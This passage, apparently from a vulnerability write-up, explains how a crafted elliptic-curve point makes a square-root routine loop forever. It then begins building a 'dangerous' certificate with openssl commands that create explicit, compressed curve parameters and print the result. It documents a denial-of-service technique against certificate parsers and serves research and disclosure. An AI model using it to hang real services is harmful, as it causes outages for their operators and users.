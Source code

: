 Then `b` will be set to an element with order not a power of `2`, and the inner loop will be stuck trying to find and `i` for which `b^(2^i)==1 (mod p)`.


## Creating a dangerous certificate

OK, now let's craft a dangerous certicate that contains invalid explicit curve paramters with a base point encoded in compressed form.

This section's files are in the `certs` folder.

### Creating a normal certificate with explicit curve paramters

First, we need to create a ec private key. Because we want a target cert with explicit curve paramters, so the key also should contain explicit curve paramters.

```bash
$ openssl ecparam -out ec.key -name prime256v1 -genkey -noout -param_enc explicit -conv_form compressed
```

Then, for convenience, we self-signed a cert, and outputed it as DER format.

```bash
$ openssl req -new -x509 -key ec.key -out cert.der -outform DER -days 360 -subj "/CN=TEST/"
```

Let's check the cert info. It contains explicit curve parameters as expected.

```bash
$ openssl x509 -in cert.der -text -noout -inform DER
...
                Field Type: prime-field
                Prime:
                    00:ff:ff:ff:ff:00:00:00:01:00:00:00:00:00:00:
                    00:00:00:00:00:00:ff:ff:ff:ff:ff:ff:ff:ff:ff:
                    ff:ff:ff
                A:
                    00:ff:ff:ff:ff:00:00:00:01:00:00:00:00:00:00:
                    00:00:00:00:00:00:ff:ff:ff:ff:ff:ff:ff:ff:ff:
                    ff:ff:fc
                B:
                    5a:c6:35:d8:aa:3a:93:e7:b3:eb:bd:55:76:98:86:
                    bc:65:1d:06:b0:cc:53:b0:f6:3b:ce:3c:3e:27:d2:
                    60:4b
                Generator (compressed):
                    03:6b:17:d1:f2:e1:2c:42:47:f8:bc:e6:e5:63:a4:
                    40:f2:77:03:7d:81:2d:eb:33:a0:f4:a1:39:45:d8:
                    98:c2:96
                Order:
                    00:ff:ff:ff:ff:00:00:00:00:ff:ff:ff:ff:ff:ff:
                    ff:ff:bc:e6:fa:ad:a7:17:9e:84:f3:b9:ca:c2:fc:
                    63:25:51
...
```
